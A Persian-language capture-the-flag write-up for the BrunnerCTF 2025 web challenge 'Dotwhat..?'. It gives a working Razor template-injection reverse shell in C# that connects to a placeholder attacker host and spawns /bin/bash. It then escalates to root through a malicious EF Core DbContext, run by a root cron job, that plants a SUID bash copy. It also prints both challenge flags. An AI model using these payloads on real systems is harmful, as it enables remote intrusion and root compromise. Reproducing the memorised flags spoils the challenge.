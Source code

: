 ```yaml
---
tags:
  - BrunnerCTF 
  - BrunnerCTF-2025
  - Web
  - dotnet
---
```


# چالش Dotwhat..? (User / Root)

تو این چالش به ما یه وبسایت دادن که از طریقش باید RCE میگرفتیم، خب وبسایت سه تا ورودی داره:

![UI – سه ورودی](static/1.png)

---

## SSTI & گرفتن RCE

توی `instructions` تونستیم `SSTI` بزنیم با payload سادهٔ زیر:

```razor
@(2+2)
```

این رفتار به خاطر استفاده از Template engine **Razor** توی `ASP.NET` بود.  
پس با `SSTI`، کد مخرب اجرا می‌کنیم—بهترین گزینه برای ما `reverse shell` بود:

```csharp
@{
    try {
        using (var client = new System.Net.Sockets.TcpClient("< I P >", PORT)) {
            using (var stream = client.GetStream())
            using (var writer = new System.IO.StreamWriter(stream))
            using (var reader = new System.IO.StreamReader(stream)) {

                writer.AutoFlush = true;

                var psi = new System.Diagnostics.ProcessStartInfo("/bin/bash") {
                    RedirectStandardInput = true,
                    RedirectStandardOutput = true,
                    RedirectStandardError = true,
                    UseShellExecute = false,
                    CreateNoWindow = true
                };

                var proc = new System.Diagnostics.Process();
                proc.StartInfo = psi;
                proc.Start();

                var stdin = proc.StandardInput;
                var stdout = proc.StandardOutput;
                var stderr = proc.StandardError;

                new System.Threading.Thread(() => {
                    string line;
                    while ((line = stdout.ReadLine()) != null) {
                        writer.WriteLine(line);
                    }
                }).Start();

                new System.Threading.Thread(() => {
                    string line;
                    while ((line = stderr.ReadLine()) != null) {
                        writer.WriteLine("ERR: " + line);
                    }
                }).Start();

                string cmd;
                while ((cmd = reader.ReadLine()) != null) {
                    stdin.WriteLine(cmd);
                }

                proc.WaitForExit();
            }
        }
    } catch (System.Exception ex) {
        try {
            using (var errClient = new System.Net.Sockets.TcpClient("< I P >", PORT)) {
                using (var errStream = errClient.GetStream()) {
                    var msg = System.Text.Encoding.ASCII.GetBytes("ERROR: " + ex.ToString());
                    errStream.Write(msg, 0, msg.Length);
                }
            }
        } catch {}
    }
}
```

منتظر کانکشن می‌مونیم 😊

![Reverse shell connected + (user) flag](static/2.png)

---

## سرنخ برای دسترسی بالاتر: `cron`

برای خوندن `/root/root.txt` باید دسترسی روت بگیریم. با نگاه به `cron`:

```bash
cat /etc/cron.d/*
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
PATH=/opt/devtools:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/.dotnet/tools
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

- از خط `* * * * *` مشخصه `cron` **هر دقیقه** اجرا می‌شه؛ پس بعد از قرار دادن/بیلد پروژه، حداکثر ظرف **۶۰ ثانیه** تریگر می‌شه.  
- دستور `dotnet ef database update` برای آپدیت اسکیمای دیتابیس، اسمبلی پروژه رو **لود** می‌کنه و یک `DbContext` می‌سازه. هر کدی که در `DbContext` (مثلاً `OnConfiguring`) اجرا می‌شه، اینجا با **دسترسی root** اجرا خواهد شد. بنابراین **بهترین نقطهٔ تزریق** برای PE همین «DbContext» است.

---

## اکسپلویت با `EF Core Migrations`

ایده: وقتی `cron`، `dotnet ef database update` رو با روت اجرا می‌کنه، `DbContext` ما لود می‌شه و `OnConfiguring` می‌تونه عملیاتِ SUID روی `/bin/bash` انجام بده تا یک `rootbash` بسازه.

#### (Program.cs)

```csharp
using app.Models;
using Microsoft.EntityFrameworkCore;

var builder = WebApplication.CreateBuilder(args);

builder.Services.AddDbContext<PwnContext>(options =>
    options.UseSqlite("Data Source=/home/user/app/dummy.db"));

var app = builder.Build();

app.UseStaticFiles();
app.UseRouting();
app.UseAuthorization();

app.MapControllerRoute(
    name: "default",
    pattern: "{controller=Recipes}/{action=Index}");

app.Run();
```
#### (app.csproj)
```xml
<Project Sdk="Microsoft.NET.Sdk.Web">
  <PropertyGroup>
    <PreserveCompilationContext>true</PreserveCompilationContext>
    <TargetFramework>net8.0</TargetFramework>
    <Nullable>enable</Nullable>
    <ImplicitUsings>enable</ImplicitUsings>
  </PropertyGroup>
  <ItemGroup>
    <PackageReference Include="RazorLight" Version="2.3.1" />
    <PackageReference Include="Microsoft.EntityFrameworkCore.Sqlite" Version="8.0.0" />
    <PackageReference Include="Microsoft.EntityFrameworkCore.Design" Version="8.0.0" />
  </ItemGroup>
</Project>
```

ساختار فولدر مدل‌ها:

```bash
mkdir -p Models
```

### کد `DbContext` مخرب (PrivEsc)

#### (Models/PwnContext.cs)
```csharp
using Microsoft.EntityFrameworkCore;
using System.Diagnostics;
using System.IO;

namespace app.Models
{
    public class PwnContext : DbContext
    {
        public PwnContext(DbContextOptions<PwnContext> options) : base(options) { }

        protected override void OnConfiguring(DbContextOptionsBuilder optionsBuilder)
        {
            base.OnConfiguring(optionsBuilder);

            try
            {
                string target = "/tmp/rootbash";

                if (!File.Exists(target))
                {
                    if (Environment.UserName == "root")
                    {
                        Process.Start("/bin/bash", "-c "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"");
                    }
                }
            }
            catch { }
        }

        public DbSet<Dummy> DummyTable { get; set; }
    }

    public class Dummy
    {
        public int Id { get; set; }
    }
}
```

**توضیح این کد چکار می‌کنه؟**  
- در `OnConfiguring` بررسی می‌کنه اگر فایل `/tmp/rootbash` وجود نداشت و **کاربر جاری `root`** بود، یک کپی از `/bin/bash` تو `/tmp/rootbash` می‌سازه و با `chmod +s` بیتِ `SUID` رو ست می‌کنه.  
- نتیجه: اجرای `/tmp/rootbash -p` یک شل با `effective uid = 0` می‌ده.

---

## بیلد و تریگر شدن توسط `cron`

```bash
dotnet build
/usr/bin/dotnet ef database update
```

(گام دوم رو معمولاً خود `cron` هر دقیقه انجام می‌ده؛ بیلد دستی کمک می‌کنه مطمئن شیم آرتیفکت‌ها آماده‌ان. سپس ظرف حداکثر ~۱ دقیقه، کران تریگر می‌شه.)

---

## گرفتن روت و خواندن فلگ

```bash
/tmp/rootbash -p
cat /root/root.txt
```

---

## Flags

??? success "(User) FLAG :triangular_flag_on_post:"
    <div dir="ltr">`brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`</div>
??? success "(Root) FLAG :triangular_flag_on_post:"
    <div dir="ltr">`brunner{M1Gr4T3_Th353_pR1v1l3G35!_H4H4_G0T_3M}`</div>


!!! نویسنده
    [Arad]()

